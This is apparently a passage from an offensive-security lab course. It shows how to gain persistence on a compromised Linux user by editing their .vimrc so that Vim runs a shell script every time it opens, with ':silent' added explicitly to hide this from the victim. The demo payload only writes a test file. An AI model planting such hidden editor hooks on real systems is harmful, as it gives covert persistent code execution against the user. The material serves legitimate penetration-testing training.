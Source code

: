 In our lab machine, let's say we have compromised the _offsec_ user, and we have a working shell.

We can modify the user's .vimrc file in their home directory (or create one if they don't have it) and add the following line.

```
!source ~/.vimrunscript
```

> Listing 4 - Sourcing a shell script in a VIM config file

This will load and run a shell script called .vimrunscript from the user's home directory. In a real-world scenario, it might be useful to pick a file path outside the user's home directory but for simplicity, we'll keep it here.

Next, we can create the shell script file at /home/offsec/.vimrunscript with the following contents.

```
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt
```

> Listing 5 - Shell script to source from VIM

The script echoes the word "hacked" to a file called /tmp/hacksrcout.txt.

If we try to run VIM now, we get an obvious debug output message explaining that we're sourcing a configuration file.

```
offsec@linuxvictim:~$ vi /tmp/test.txt
:!source /home/offsec/.vimrunscript

Press ENTER or type command to continue
```

> Listing 6 - A debug message shown when sourcing a shell script in VIM

This is obviously undesirable as it would tip off the user. Luckily, VIM has a built-in command for this, the :silent command.

This command mutes any debug output which would normally be sent to the user when running VIM. We'll change our line in the user's .vimrc file to the following.

```
:silent !source ~/.vimrunscript
```

> Listing 7 - Silencing the debug message

We will remove the previous attempt's /tmp/hacksrcout.txt file and try again. This time when we run VIM, our file opens, and we don't get any suspicious messages.

If we check the /tmp/ directory, we find that our test output file was created successfully.

```
offsec@linuxvictim:~$ ls -al /tmp/hacksrcout.txt
-rw-rw-r-- 1 offsec offsec 7 Jul  8 13:51 /tmp/hacksrcout.txt

offsec@linuxvictim:~$ cat /tmp/hacksrcout.txt 
hacked
```
